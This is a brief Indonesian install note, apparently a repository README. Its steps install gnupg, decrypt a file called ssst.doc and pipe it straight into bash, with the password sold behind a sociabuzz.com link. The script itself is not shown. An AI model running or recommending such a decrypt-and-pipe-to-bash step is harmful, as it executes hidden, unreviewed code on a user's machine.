 cara install hanya

```$ sudo apt install gnupg```

```$ gpg -d ssst.doc | bash```

```$ (masukan password)```



# PASSWORD DISINI
<a href="https://sociabuzz.com/hdiiofficial/c/62555/password"><strong>CLICK HERE</strong></a>
